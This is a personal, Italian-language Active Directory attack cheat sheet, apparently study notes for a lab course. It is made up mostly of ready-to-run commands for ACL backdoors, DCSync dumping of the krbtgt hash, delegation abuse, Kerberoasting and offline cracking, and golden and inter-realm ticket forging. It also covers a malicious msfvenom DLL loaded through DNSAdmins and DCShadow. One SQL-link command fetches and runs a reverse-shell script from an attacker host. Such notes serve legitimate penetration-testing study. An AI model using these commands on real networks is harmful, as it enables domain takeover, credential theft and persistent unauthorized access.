Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder, CN=System' -PrincipalSamAccountName claudionepc -Rights -All -Verbose (Aggiundere da account nel DA pieno controllo ad un utente normale claudionepc al AdminSDHolder)

Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'claudionepc'}
```

## ACL: Full-control rights (DA SCRIVERE MEGLIO!!!)

```
Add-ObjectAcl -TargetDistinguishedName ‘DC=dollarcorp,DC=moneycorp,DC=local’ -PrincipalSamAccountName <username> -Rights All -Verbose
```
## ACL: Add rights for DCsync 
### DCSync è un attacco che consente a un avversario di simulare il comportamento di un controller di dominio (DC) e recuperare i dati della password tramite la replica del dominio. L'uso classico di DCSync è come precursore di un  attacco Golden Ticket  , in quanto può essere utilizzato per recuperare l'hash KRBTGT.

### Nello specifico, DCSync è un comando nello strumento Mimikatz open source . Utilizza i comandi nel protocollo remoto del servizio di replica directory (MS-DRSR) per simulare il comportamento di un controller di dominio e chiedere ad altri controller di dominio di replicare le informazioni, sfruttando le funzioni valide e necessarie di Active Directory che non possono essere disattivate o disattivate.

```
Add-ObjectAcl -TargetDistinguishedName ‘DC=dollarcorp,DC=moneycorp,Dc=local’ -PrincipalSamAccountName <username> -Rights DCSync -Verbose

Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```
## ACL: Security Descriptors (DA SCRIVERE MEGLIO!!!)
### è possibile modificare i security descriptors (info clome Owner, primary group, DACL e SACL) di molteplifi  metodi di accesso remoto (oggetti proteggibili) per consentire l'accesso agli utenti non amministratori. Servono privilegi amministratori
### https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/security-descriptors

### SecurityDescriptor - WMI
```
. ./Set-RemoteWMI.ps1

Set-RemoteWMI -Username <username> -Verbose (On a local machine)

Set-RemoteWMI -Username <username> -Computername <computername> -namespace ‘root\cimv2’ -Verbose (On a remote machine without explicit credentials)

Set-RemoteWMI -Username <username> -Computername <computername> -Credential Administrator -namespace ‘root\cimv2’ -Verbose (On a remote machine with explicit credentials. Only root/cimv and nested namespaces)

Set-RemoteWMI -Username <username> -Computername <computername> -namespace ‘root\cimv2’ -Remove -Verbose (On remote machine remove permissions)
```

### SecurityDescriptor - PowerShell Remoting (DA SCRIVERE MEGLIO!!!)
```
. ./Set-RemotePSRemoting.ps1

Set-RemotePSRemoting -Username <username> -Verbose (On a local machine)

Set-RemotePSRemoting -Username <username> -Computername <computername> -Verbose (On a remote machine without credentials)

Set-RemotePSRemoting -Username <username> -Computername <computername> -Remove (On a remote machine remove permissions)
```

### SecurityDescriptor - Remote Registry (DA SCRIVERE MEGLIO!!!)
```
. ./Add-RemoteRegBackdoor

. ./RemoteHashRetrieval

Add-RemoteRegBackdoor -Computername <computername> -Trustee <username> -Verbose (Using DAMP with admin privs on remote machine)

Get-RemoteMachineAccountHash -Computername <computername> -Verbose (Retrieve machine account hash from local machine)

Get-RemoteLocalAccountHash -Computername <computername> -Verbose (Retrieve local account hash from local machine)

Get-RemoteCachedCredential -Computername <computername> -Verbose (Retrieve domain cached credentials from local machine)
```

# Domain-privilege-escalation
## Differenza tra Contrained Delegation Uncontrained Delegation e Resource Based Constrained Delegation - RBCD


## Contrained Delegation [Local Admin sulla macchina con la delegazione attiva]


### 1) L'utente esegue l'autenticazione al controller di dominio (DC) utilizzando il nome utente e la password. Il KDC verifica le credenziali dell'utente ed emette un Ticket Granting Ticket (TGT) per l'utente.
### 2) Utilizzando il TGT ottenuto, l'utente richiede un ticket di servizio per il servizio web; il KDC verifica l'autenticità del TGT e, se tutto va bene, concede il ticket di servizio al servizio web.
### 3) Il servizio web, agendo ora per conto dell'utente, avvia una nuova richiesta al servizio SQL, presentando al servizio SQL il ticket TGS ricevuto.
### 4) Il servizio SQL inoltra il ticket TGS al KDC per la verifica, quindi concede il ticket di servizio per il servizio SQL al servizio web.
### 5) Il servizio Web presenta il ticket di servizio al servizio SQL, che verifica l'autenticità del ticket con il KDC e quindi concede l'accesso alle risorse richieste.
## Prerequisiti: 1) Un account utente o computer con l'opzione di delega abilitata: "Considera attendibile questo utente/computer solo per la delega ai servizi specificati" . 2) Privilegi di amministratore locale sull'host compromesso delegato. Se hai compromesso il server come utente normale, dovresti passare all'amministratore per abusare di questa funzione di delega.

```
Get-DomainUser -TrustedToAuth

Get-DomainComputer -TrustedToAuth

powershell -ep bypass

kekeo@ tgt::ask /user:studvm /domain:TECH.FINANCE.CORP /rc4:[HASH account servizio studvm] [step 2 e 3] o rubeus.exe asktgt /user:userName /domain: DomainName /ntlm:Hash /outfile:FileName.tgt

.\Rubeus.exe s4u /user:studvm /rc4:[HASH account servizio studvm] /impersonateuser:Administrator /msdsspn:CIFS/mgmtsrv.TECH.FINANCE.CORP /altservice:LDAP /ptt [alservice= può essere fornito per sostituire uno o più nomi di servizio nel file .kirbi risultante]

klist

Invoke-Mimikatz -Command '"lsadump:dcsync /user:dcorp\krbtgt"'
```	

## Uncontrained Delegation [Local Admin on machine]


### 1) Un utente si autentica al KDC (Kerberos Domain Controller) inviando una richiesta crittografata con le proprie credenziali. Il KDC verifica la loro identità e invia all'utente un ticket TGT .
### 2) L' utente riceve il ticket TGT e lo rispedisce al KDC, richiedendo un ticket di servizio per un servizio specifico, diciamo un servizio web. Il KDC controlla la validità del TGT e restituisce il ticket di servizio (TGS) per il servizio richiesto.
### 3) A questo punto l'utente può utilizzare il ticket di servizio (TGS) per accedere al servizio web richiesto. Tuttavia, se il servizio richiesto come il servizio Web nel nostro esempio deve accedere a un altro servizio come SQL , l'utente deve ottenere un ticket TGT inoltrabile per passarlo al servizio Web insieme al ticket TGS. Quindi un TGS per il servizio web + tgt per servizio SQL  vengono inviati al servizio web.
### 4) Il server Web memorizza localmente nella cache il TGT inoltrabile dell'utente e lo utilizza per richiedere un ticket TGS dal KDC per accedere al servizio SQL per conto dell'utente.
### 5) Il KDC verifica il TGT presentato e fornisce al server Web il TGS SQL per accedere al server SQL come utente.
### 6) Il server web lo inoltra aò server sql che poi in cambio riceve le risorse richieste.
## Prerequisiti: L'account ha il flag TRUSTED_FOR_DELEGATION nei flag Controllo account utente (UAC). L'account utente non ha il flag NOT_DELEGATED impostato (per impostazione predefinita gli account non di dominio hanno questo flag).

```	
Get-NetComputer -Uncontrained (cercare computer che hanno il flag uncontrained attivato)

powershell -ep bypass

Import-Module Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"sekurlsa::tickets"' (controlla se c'è un tickets DA disponibile)

Invoke-Mimikatz -Command '"kerberos:ptt [ticket.kirbi]'"

Invoke-Command -ScriptBlock{whoami;hostname} -computername dcorp-dc (RCE su Domain Controller)
```

## Delega vincolata basata sulle risorse (RBCD).



## Abuse SQL [Local Admin on machine]
### I server MS SQL sono generalmente distribuiti in abbondanza in un dominio Windows.
### I server SQL offrono ottime possibilità di spostamento laterale, in quanto gli utenti del dominio possono essere mappati su ruoli di database.
### Un link database consente a un server SQL di accedere a sorgenti di dati esterni come altri SQL Servers. Se presenti è possibile eseguire procedure tramite questi database link

```
powershell -ep bypass

Import-Module PowerupSQL.psd1

Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose [Gather information]

Get-SQLServerLinkCrawl -Instance dbserver31.TECH.FINANCE.CORP -Query 'exec master..xp_cmds hell "powershell iex(New-Object Net.WebClient).DownloadString("http://$IP_Attacker/Invoke-PowerShellTcp.ps1")"' [esecuzione commandi]
```	

## Kerberoasting - AS-REPs [Normal User on the machine]
### Se nelle impostazioni UserAccountControl di un utente è abilitata la funzione "Non richiedere la preautenticazione Kerberos", ossia la preautenticazione Kerberos è disabilitata, è possibile ottenere l'AS REP decifrabile dell'utente e forzarlo offline. In pratica richiedi un Ticket Granting Ticket (TGT). Il KDC risponderà con il TGT per l'account, senza richiedere la password dell'account come pre-autenticazione.

```
Invoke-ASREPRoast -Verbose (enumerazione di tutti gli utenti cpn Kerberos pre auth disabilitato)

Get-ASREPHash -Username student1 -Verbose (prendere hash) 

./john hash.txt --wordlist=wordlist.txt

Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} (enumerazione permessi per RDPUsers su ACL PowerView)			
```	

## Kerberoasting - Set SPN [Normal User on the machine]
### Con abbastanza privilegi (Generic All/Generic Write) l'SPN di un utente target può essere impostato su qualsiasi cosa (unico nel dominio). Si può richiedere TGS senza privilegi speciali

```
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} (enumerazione permessi per RDPUsers su ACL PowerView)

Get-DomainUser -Identity supportuser | select serviceprincipalname (vedere se l'utente ha già un SPN)

Set-DomainObject -Identity supportuser -Set @{serviceprincipalname='ops/whatever1'} (set SPN for the user)

Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
o
Request-SPNTicket (richiesta ticket)

klist

Invoke-Mimikatz -Command '"kerberos::list /export"' (esportare ticket)

python.exe tgsrepcrack.py wordlist.txt ticket.kirbi (bruteforce password)			
```


## Kerberoast [Normal user on the machine]
### Cracking offline delle password degli account di servizio.
### Gli account di servizio sono spesso ignorati (le password vengono cambiate raramente) e hanno un accesso privilegiato.

```
Get-NetUser -SPN (find user accounts usati come service account)

Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "SPN(MSSQLvc/dcorp.mgmt.dollarcorp.moneycorp.local)" (Request TGS)
o
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Request-SPNTicket" (Request TGS)
o
GetUserSPNs -dc-ip [IP] domain/hostname -request (impacket) poi usi hashcat (13200)

klist

powershell -ep bypass

Import-Module Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"kerberos::list /export"' (export tickets)

python.exe .\tgsrepcrack.py [passlist] [ticket.kirbi]
```	

## DNSAdmins
### E' possibile per i membri del gruppo DNSAdmins caricare DLL arbitrarie con i privilegi del dns.exe. In caso che DC serve come DNS si può fare escalation a Domain Admins. 
### E' importante riavviare il servizio DNS
```
powershell -ep bypass

net user claudione /domain

Get-NetGroupMember -GroupName "DNSAdmins"

msfvenom -p windows/x64/exec cmd='net group "domain admins" claudione /add /domain' -f dll > mimilib.dll (creazione DLL malevola)

dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.50.100\dll\mimilib.dll  (possiamo chiedere al dcorp-dc vittima di caricare la nostra DLL malevola al prossimo avvio del servizio (o al riavvio dell'attaccante))
o
$dnsettings = Get-DnsServerSetting -ComputerName dcorp dc -Verbose -All

$dnsettings.ServerLevelPluginDll = "\\172.16.50.100\dll\mimilib.dll"

Set-DnsServerSetting -InputObject $dnsettings -ComputerName dcorp-dc -Verbose

sc \\dcorp-dc stop dns

sc \\dcorp-dc start dns

net user claudione /domain
```

## Child to Parent
### I domini nelle foreste hanno una implicita 2-way trust con altri domini. 2 modi per fare priv esc tra 2 domini in una foresta. Tramite krbtgt hash o Trust tickets


## Trust Flow with trust tickets


### Da un DC possiamo forgiare un TGT (Golden Ticket) per un Enterprise Admins. Passiamo da un Domain Admins ad un Enterprise Admins (riconosciuto perchè il suo SID finisce con 519. Possiede l'accesso amministrativo a tutti i domini in una foresta)

```
powershell -ep bypass

Get-ADTrust -Filter * (verifichiamo la relazione tra padre e figlio che sia bidirezionale)

Import-Module Invoke-Mimikatz.ps1

Get-DomainSID -Domain [dominio di Enterprise Admins]

Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName enterprise.dc (trust key)
o
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"' 

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:[FQDN dominio corrente] /sid: [SID dominio corrente] /sids:[SID Domain Enterprise] /rc4:[HASH trust key] /service:krbtgt (target service nel dominio parente) /target: [FQDN dominio parente] /ticket:[PATH dove il ticket verrà salvato] (Inter-realm TGT viene forgiato)

Rubeus.exe asktgs  /ticket: percorso ticket  /servizio: tipo di servizio [cifs/mcorpdc.moneycorp.local]  /dc: controller di dominio [mcorp-dc.moneycorp.local]  /ptt (Ottengo TGS per il servizio CIFS del dominio target quindi quello di Enterprise Admins)

klist (verifico di avere il ticket TGS)

ls \\mcorpdc.moneycorp.local\C$
```

## Trust Flow with krbtgt hash

```
powershell -ep bypass

Get-ADTrust -Filter * (verifichiamo la relazione tra padre e figlio che sia bidirezionale)

Import-Module Invoke-Mimikatz.ps1

Get-DomainSID -Domain [dominio di Enterprise Admins]

Invoke-Mimikatz -Command '"lsadump::trust /patch"' (get krbtgt)

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:[FQDN dominio corrente] /sid: [SID dominio corrente] /sids:[SID Domain Enterprise] /krbtgt:[HASH] /ticket:[PATH dove il ticket verrà salvato] (Inter-realm TGT viene forgiato)

Invoke-Mimikatz -Command '"kerberos::ptt [path ticket.kirbi]

ls \\mcorpdc.moneycorp.local\C$
```
## DCSYNC
### DCSync è una variante del dumping delle credenziali che può essere utilizzata per acquisire informazioni sensibili da un controller di dominio. Invece di eseguire codice dannoso riconoscibile, l'azione funziona abusando dell'interfaccia di programmazione delle applicazioni (API) del controller di dominio per simulare il processo di replica da un controller di dominio remoto. Qualsiasi membro dei gruppi Administrators, Domain Admins, Enterprise Admin o account di computer sul controller di dominio è in grado di eseguire DCSync per estrarre i dati delle password da Active Directory, che possono includere hash attuali e storici di account potenzialmente utili come KRBTGT e Administrators. Gli hash possono essere utilizzati per creare un Golden Ticket da utilizzare per passare il Ticket o modificare la password di un account, come indicato nella sezione Manipolazione degli account. La funzionalità DCSync è stata inclusa nel modulo "lsadump" di Mimikatz. Lsadump include anche NetSync, che esegue la funzione DCSync, mentre il modulo "lsadump" è stato incluso nel modulo "lsadump" di Mimikatz.

## Trust Flow Across Forest
## Across the Forest usando Trust Ticket

```
powershell -ep bypass

Import-Module Invoke-Mimikatz.ps1

Get-DomainSID -Domain [dominio di Enterprise Admins]

Invoke-Mimikatz -Command '"lsadump::trust /patch"' (trust key)
o
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' (trust key)

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:[FQDN dominio corrente] /sid: [SID dominio corrente] /sids:[SID dominio altra foresta] /rc4:[HASH trust key] /service:krbtgt (target service nel dominio parente) /target: [FQDN dominio altra foresta] /ticket:[PATH dove il ticket verrà salvato] (Inter-forest TGT viene forgiato)

Rubeus.exe asktgs  /ticket: percorso ticket  /servizio: tipo di servizio [cifs/FQDN altra foresta]  /dc: [FQDN controller di dominio di dominio di altra foresta]  /ptt (Ottengo TGS per il servizio CIFS del dominio target quindi quello di Enterprise Admins)

klist (verifico di avere il ticket TGS)

ls \\mcorpdc.moneycorp.local\C$
```

# DCShadow
### DCShadow consente a un utente malintenzionato con sufficienti privilegi di creare un controller di dominio non autorizzato e di apportare modifiche agli oggetti di Active Directory del DC.
### Per impostazione predefinita, i privilegi DA sono necessari per utilizzare DCShadow. La macchina dell'aggressore deve far parte del dominio principale.
### Per questo attacco sono necessarie due shell: una in esecuzione con privilegi SYSTEM e una con privilegi di un utente che fa parte del gruppo Domain Admins.

### Verrà modificato il computer pc-w10$

```
PS c:\> ([adsisearcher]"(&(objectCategory=Computer)(name=pc-w10))").Findall().Properties (verrà cambiato una proprietà di questo oggetto di AD)

lsadump::dcshadow /object:pc-w10$ /attribute:badpwdcount /value=9999 (Console SYSTEM)

lsadump::dcshadow /push
```
